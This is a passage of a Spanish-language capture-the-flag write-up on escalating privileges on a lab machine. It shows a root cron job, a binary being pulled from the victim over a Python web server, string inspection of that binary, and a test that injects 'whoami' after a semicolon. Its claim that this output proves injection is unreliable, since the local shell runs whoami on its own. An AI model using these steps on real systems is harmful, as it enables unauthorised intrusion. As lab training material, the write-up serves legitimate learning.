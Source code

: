 ```bash

* * * * * root /usr/local/bin/flux_admin.sh
```

Si listamos el contenido de esa ruta, vemos que no existe tal archivo:
```bash
ls -l /usr/local/bin/
total 32
-rwxr-xr-x 1 root root 16200 Jul 12 20:49 backup_runner
-rwx------ 1 root root 16296 Jul 14 20:44 time_daemon
```

Ahora nos traemos el binario **backup_runner** a nuestra maquina de atacante:
Desde la maquina victima montamos un servidor con python
```bash
marty@hillvalley:/usr/local/bin$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Desde nuestra maquina atacante, descargamos el binario:
```bash
wget http://192.168.100.35:8080/backup_runner
```

Ahora con el comando **strings** vemos las cadenas legibles
```bash
strings backup_runner
/lib64/ld-linux-x86-64.so.2
'=ZU
snprintf
puts
exit
setuid
system
__libc_start_main
```

Damos permisos de ejecucion para poder ejecutarlo y saber como funciona:
```bash
chmod +x backup_runner
```

Ahora ejecutamos el binario:
```bash
./backup_runner
Usage: backup_runner <filename>
```

Nos pide un nombre de archivo, Si le concatenamos un **whoami** vemos que es ejecutado
```bash
./backup_runner id_rsa; whoami
tar: Removing leading `/' from member names
tar: /home/docbrown/docs: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors
hakcer # Output del comando whoami
```
